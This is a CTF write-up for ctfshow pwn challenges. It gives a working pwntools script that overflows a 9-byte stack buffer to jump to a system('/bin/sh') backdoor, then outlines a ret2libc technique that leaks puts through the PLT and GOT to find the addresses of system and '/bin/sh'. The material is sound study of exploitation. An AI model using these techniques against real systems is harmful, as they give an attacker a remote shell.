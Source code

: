 # ctfshow-pwn



## pwn02: ret2text

exploit: return to the backdoor function `stack` by overflowing the variable `s` in function `pwnme` .

vulnerable point: pwnme uses buffer overflowing function `fgets`. The vulnerable point is variable s, it has only 9 bytes, but can be writen with 50 bytes.

![image-20221010195722627](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20221010195722627.png)

```python
from pwn import *
#0x804850f  system('/bin/sh')
r = remote("pwn.challenge.ctf.show",28108)
payload = 'A'*13 + p32(0x804850f)
r.sendline(payload)
r.interactive()
```



## pwn03: ret2libc

  
  

+ decompile `pwnme` 

exploit: 
 


```c
int pwnme()
{
  char s; // [esp+Fh] [ebp-9h]

  fgets(&s, 100, stdin);
  return 0;
}
```



**First exp:** 

+ payload: 
  + 'A'*(9+4) 	[overflow variable `s` and `ebp`]
  +  puts_plt     [ret addr of `pwnme()`]
  + main_addr     [ret addr after `puts()`]
  + put_got       [arg of `puts()`]



+ Leak the real addr of `puts` in memory.
+ Leak the libc version by `LibcSearcher` tools.
+ Get the offset of `puts` of this libc version.
+ Get the real addr of the start of libc in memorylibc_real_base = puts_real_addr - puts_offset
+ Get the real addr of `system()` and  string `'/bin/sh'`  in memory: 
  + system_real = libc_real_base + system_offset
  + binsh_real = libc_real_base + binsh_offset
